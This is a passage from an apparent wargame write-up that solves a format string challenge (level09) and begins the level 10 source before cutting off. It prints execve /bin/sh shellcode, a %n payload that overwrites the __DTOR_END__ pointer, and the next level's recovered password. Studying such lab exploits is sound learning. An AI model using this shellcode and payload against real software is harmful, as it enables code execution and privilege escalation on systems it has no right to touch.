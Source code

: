 ```
$ cat /levels/level09.c
```

```cpp
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
    int  pad = 0xbabe;
    char buf[1024];
    strncpy(buf, argv[1], sizeof(buf) - 1);

    printf(buf);

    return 0;
}
```

This is a format string vulnerability challenge.

```
$ export shellcode=`python -c 'print "\x90"*200+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"'`
```

```
$ nm /levels/level09 | grep DTOR
080494d4 d __DTOR_END__
080494d0 d __DTOR_LIST__
```

Find where `shellcode` is on the stack, and write the address over the top of the destruction function pointer.

Using the `%n` format specifier I am able to write bytes to an argument to the stack, and by using the `$` I can specify what the bytes to write are.

```
$ /levels/level09 `python -c'print "\xd4\x94\x04\x08" + "\xd5\x94\x04\x08" + "\xd6\x94\x04\x08" + "\xd7\x94\x04\x08" + "%104u%4$n%390u%5$n%257u%6$n%192u%7$n"'`
```

```
$ cat /home/level10/.pass
UT3ROlnUqI0R2nJA
```

# 10. Level 10

```
$ cat /levels/level10.c
```

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv){
    FILE *fp = fopen("/levels/level10.pass", "r");
    struct {char pass[20], msg_err[20];} pwfile = {{0}};
    char ptr[0];

    if(!fp || argc != 2)
        return -1;

    fread(pwfile.pass, 1, 20, fp);
    pwfile.pass[19] = 0;
```